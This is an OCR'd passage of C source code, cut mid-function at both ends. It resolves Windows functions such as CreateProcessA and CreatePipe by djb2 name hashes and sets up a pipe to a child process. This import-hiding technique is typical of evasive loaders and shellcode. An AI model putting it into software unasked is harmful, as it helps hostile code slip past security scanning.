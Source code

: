        HasherDjb2(sCreateProcessA), HasherDjb2(sWriteFile), HasherDjb2(sCreatePipe),
        HasherDjb2(sGetStdHandle), HasherDjb2(sCloseHandle), HasherDjb2(sWaitForSingleObject),
        HasherDjb2(sExitProcess), HasherDjb2(sSetHandleInformation), HasherDjb2(sGetEnvironmentVariableA),
        HasherDjb2(sGetLastError)
    };

    CONST DWORD FuncHashesNTDLL[] = {
        HasherDjb2(sRtlZeroMemory)
    };
    
    int numberOfFuncs_K32 = sizeof(FuncHashesK32) / sizeof(DWORD);

    int NumberFoundK32 = ResolveFuncsByHashInModule(
        // -- # 1 The address of the start of required DLL
        hK32DLL,
        // -- #2 Array of Function Hashes to search for 
        FuncHashesK32,
        // -- #3  Where to store, must be a null init array, 
        // will store ptrs to the found funcs 
        Kernel32Ptrs,
        // -- #4 Number of Funcs to search in DLL, will run this many times.
        numberOfFuncs_K32
        );


    pCreateProcessA = (FuncCreateProcessA)Kernel32Ptrs[0];
    pWriteFile = (FuncWriteFile)Kernel32Ptrs[1];
    pCreatePipe = (FuncCreatePipe)Kernel32Ptrs[2];
    pGetStdHandle = (FuncGetStdHandle)Kernel32Ptrs[3];
    pCloseHandle = (FuncCloseHandle)Kernel32Ptrs[4];
    pWaitForSingleObject = (FuncWaitForSingleObject)Kernel32Ptrs[5];
    pExitProcess = (FuncExitProcess)Kernel32Ptrs[6];
    pSetHandleInformation = (FuncSetHandleInformation)Kernel32Ptrs[7];
    pGetEnvironmentVariableA = (FuncGetEnvironmentVariableA)Kernel32Ptrs[8];
    pGetLastError = (FuncGetLastError)Kernel32Ptrs[9];


    int numberOfFuncs_NTDLL= sizeof(FuncHashesNTDLL) / sizeof(DWORD);

    int foundNtdll = 0;
    if (hNtdll) {
        foundNtdll = ResolveFuncsByHashInModule(hNtdll, FuncHashesNTDLL, NtdllPtrs, numberOfFuncs_NTDLL);
    }

    if (foundNtdll > 0) pRtlZeroMemory = (FuncRtlZeroMemory)NtdllPtrs[0];

 HANDLE hChildStd_IN_Rd = NULL;
    HANDLE hChildStd_IN_Wr = NULL;
    PROCESS_INFORMATION pi;
    STARTUPINFOA si;
    SECURITY_ATTRIBUTES sa;
    char cmdPath[MAX_CMD_PATH];
    char cmdLine[MAX_CMD_PATH]; // Buffer for command line

    // Setup security attributes for inheritable pipe handle
    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.bInheritHandle = TRUE;
    sa.lpSecurityDescriptor = NULL;

   
    if (!pCreatePipe(&hChildStd_IN_Rd, &hChildStd_IN_Wr, &sa, 0)) {
         pExitProcess(2);
    }

    
    if (!pSetHandleInformation(hChildStd_IN_Wr, HANDLE_FLAG_INHERIT, 0)) {
         pCloseHandle(hChildStd_IN_Rd);
        pCloseHandle(hChildStd_IN_Wr);
        pExitProcess(3);
    }
